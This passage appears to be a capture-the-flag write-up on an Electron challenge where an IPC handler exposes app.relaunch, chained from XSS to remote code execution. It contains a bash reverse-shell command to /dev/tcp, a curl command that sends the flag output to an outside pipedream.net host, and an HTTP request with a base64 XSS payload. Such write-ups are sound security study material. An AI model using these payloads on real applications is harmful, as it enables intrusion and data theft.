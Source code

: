 By executing this line code, the code on line [2] will come into action:

```
window.api.invoke("RELsummary","test")
```

The `action` variable will have this value `RELsummary` and `args` will have `test`. On line [3] , a call like this will be made. This eventually calls the RELsummary method and the console.log message will be printed

```
app.RELsummary("test")
```


This looked interesting as it allows to call any method available from the `app` object (https://www.electronjs.org/docs/latest/api/app) also there is regex check which only allows actions which starts from REL (`/i` means case insensitive)

Searching for a method under app object which starts from rel , point us to this https://www.electronjs.org/docs/latest/api/app#apprelaunchoptions

![image](https://user-images.githubusercontent.com/31372554/198941664-00013eef-a978-4732-8301-2327010f4074.png)

I was solving this challenge in the last moment and I had some other works to also do, so wasn't able to solve this (as it would have taken me some time to figure it out how to achieve rce through relaunch method). After the ctf ended I checked the solution and the solution was really using `app.relaunch` method 

Thanks to @zeyu200 for this:

```js
window.api.invoke('relaunch',{execPath: 'bash', args: ['-c', 'bash -i >& /dev/tcp/HOST/PORT 0>&1']}) // it will evaluate to the below code
app.relaunch({execPath: 'bash', args: ['-c', 'bash -i >& /dev/tcp/HOST/PORT 0>&1']})
```

To get the flag here's the final poc:

```js
window.api.invoke('relaunch',{execPath: 'bash', args: ['-c', 'curl "https://en2celr7rewbul.m.pipedream.net/v2?=$(/printflag)"']})
```


Replace the `houseId` and `token` parameter according to your accout.

```
POST /sell HTTP/2
Host: relapi.flu.xxx
Content-Length: 298
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) REL/1.0.0 Chrome/94.0.4606.81 Electron/15.5.7 Safari/537.36
Content-Type: application/json
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US

{"houseId":"_yTPmi9bfl","token":"61e6887048465eed383d6d9f5cd32c86","message":"<img src=x onerror=eval(atob('d2luZG93LmFwaS5pbnZva2UoJ3JlbGF1bmNoJyx7ZXhlY1BhdGg6ICdiYXNoJywgYXJnczogWyctYycsICdjdXJsICJodHRwczovL2VuMmNlbHI3cmV3YnVsLm0ucGlwZWRyZWFtLm5ldC92Mj89JCgvcHJpbnRmbGFnKSInXX0p'))>","price":"1"}
```

![image](https://user-images.githubusercontent.com/31372554/198945644-fe0cd51d-bd05-4ec0-bc0f-339bef10325d.png)

`flag{congrats_on_your_firstRELauncHv2}`